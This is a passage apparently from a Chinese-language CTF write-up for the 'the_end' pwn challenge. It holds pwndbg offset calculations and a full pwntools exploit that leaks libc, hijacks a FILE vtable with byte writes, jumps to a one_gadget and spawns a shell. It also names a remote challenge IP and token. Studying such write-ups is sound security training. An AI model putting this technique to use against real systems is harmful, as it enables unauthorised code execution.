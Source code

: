 ```
$10 = 0x7f41d9c02588
pwndbg> distance 0x7f41d9c02588 0x7f41d983d000
0x7f41d9c02588->0x7f41d983d000 is -0x3c5588 bytes (-0x78ab1 words)
pwndbg> distance  0x7f41d9c025e0 0x7f41d983d000
0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)
```

最終的利用腳本如下：

```
from pwn import *
context.log_level="debug"

libc=ELF("/lib/x86_64-linux-gnu/libc-2.23.so")
# p = process('the_end')
p = remote('127.0.0.1',1234)

rem = 0
if rem ==1:
    p = remote('150.109.44.250',20002)
    p.recvuntil('Input your token:')
    p.sendline('RyyWrOLHepeGXDy6g9gJ5PnXsBfxQ5uU')

sleep_ad = p.recvuntil(', good luck',drop=True).split(' ')[-1]

libc_base = long(sleep_ad,16) - libc.symbols['sleep']
one_gadget = libc_base + 0xf02b0
vtables =     libc_base + 0x3C56F8

fake_vtable = libc_base + 0x3c5588
target_addr = libc_base + 0x3c55e0

print 'libc_base: ',hex(libc_base)
print 'one_gadget:',hex(one_gadget)
print 'exit_addr:',hex(libc_base + libc.symbols['exit'])

# gdb.attach(p)

for i in range(2):
	p.send(p64(vtables+i))
	p.send(p64(fake_vtable)[i])


for i in range(3):
    p.send(p64(target_addr+i))
    p.send(p64(one_gadget)[i])

p.sendline("exec /bin/sh 1>&0")

p.interactive()
```

